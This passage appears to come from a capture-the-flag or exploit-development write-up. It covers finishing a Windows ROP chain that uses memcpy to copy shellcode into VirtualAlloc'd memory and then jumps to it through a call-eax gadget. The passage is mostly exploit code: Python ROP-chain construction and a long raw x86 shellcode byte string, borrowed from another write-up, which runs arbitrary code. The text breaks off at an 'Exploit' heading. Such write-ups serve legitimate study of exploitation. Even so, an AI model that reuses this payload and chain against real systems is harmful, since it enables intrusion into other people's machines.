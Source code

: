 ```
        0040120b c3              RET
```

For this, we will need three arguments. The destination pointer (in the rop chain we will just have a placeholder value there, which will be overwritten with the pointer to our allocated space in the `virtualAlloc` winapi call). Then we will have the src pointer which will point to the shellcode on our ROP chain. Finally after that we will have the size of the data, `0x400` bytes. Of course we will also need to have our shellcode on the ROP Chain.

The return address (stored in `eax`) from the `memcpy` winapi is the ptr which is written to. So after the `memcpy` winapi call, we just need to call eax, and that will execute out shellcode. Luckily for us, there is a gadget for that at `0x401c6b`.

So with that, we can finish off our ROPchain / payload with this:

```
ropChain += p32(memcpy)

ropChain += p32(pop4)

ropChain += p32(0x31313131)

ropChain += p32(ropStart + 0x3c)

ropChain += p32(0x400)

ropChain += p32(0x32323232)

ropChain += p32(callEax)

shellcode = "\x90\x6A\x53\x90\xbe\x30\x3f\x47\x5c\xda\xc7\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x43\x31\x77\x14\x03\x77\x14\x83\xef\xfc\xd2\xca\x2d\x6c\x4c\x51\x39\x8a\xfb\xe9\x31\x18\x8d\x1d\xc1\x58\x61\x1b\xd5\x74\x81\x23\x85\xff\xb7\xa8\x13\x8b\xe1\xbe\x33\x2e\x1a\xbf\xbf\x62\xcc\x28\x3f\x83\x0c\x3f\x2b\xe6\x75\xbf\x22\x0f\xd7\xd7\x34\xd0\xd7\x27\x5d\x50\xd7\x27\x9d\x38\xd4\x27\x9d\xb8\xb2\x27\x9d\xb8\x42\x40\x9c\xb8\x42\x90\xf6\xb8\x42\x90\x86\xee\xbd\x40\xdc\x99\x86\x09\xf7\xfc\xf2\xda\xa5\x16\x62\xdb\x49\xe7\xe3\x37\x49\xe5\xe3\xc7\xc3\x08\xb2\xaf\xd3\xca\x34\x30\x85\x4b\xdd\x30\x27\x4c\x1d\x59\x27\x4e\x1d\x99\x76\x19\xe2\x49\x21\x24\xf5\x6a\xd0\x26\x05\xea\x10\x22\x07\xec\x98\x73\x02\x8c\x9c\x83\x0c\xcd\x71\x8f\x08\xcd\x89\xf8\x10\xcc\x89\xf8\x41\x31\x59\xae\x36\x46\x2e\x6b\xb4\x69\x30\x8f\xf5\x49\x62\x48\x15\x3d\x71\x68\x1a\xb3\x84\xad\x4d\x23\x79\xce\x72\x35\x7e\x6e\xd2\x84\x7b\x91\x8a\x83\xe8\xb5\x6e\x1f\xb5\x89\xe5\x4b\x33\x8a\xf8\x99\xb0\x20\xe2\xd6\x9d\x94\x13\x02\xc2\xff\x5a\x5f\x31\x8b\x5d\xb1\x6c\x63\xe6\xb2\x6e\x8c\x23\x09\xb5\x5b\x26\x7d\x3e\xc1\xec\x7c\xaa\x90\x67\x72\x67\xd6\x2d\x97\x76\x03\x5a\xa3\xf3\xd2\xb4\x45\x01\xd5\x44\x96\x37\x15\xcd\xd2\x13\x89\xac\x18\x53\xb1"

ropChain += shellcode
```

Also one thing to keep in mind, shellcoding on windows is way different than shellcoding on linux. This is primarily because with windows shellcoding, you can't make syscalls directly, so you have to jump through some hoops. The shellcode I used here is from the referenced writeup.

## Exploit
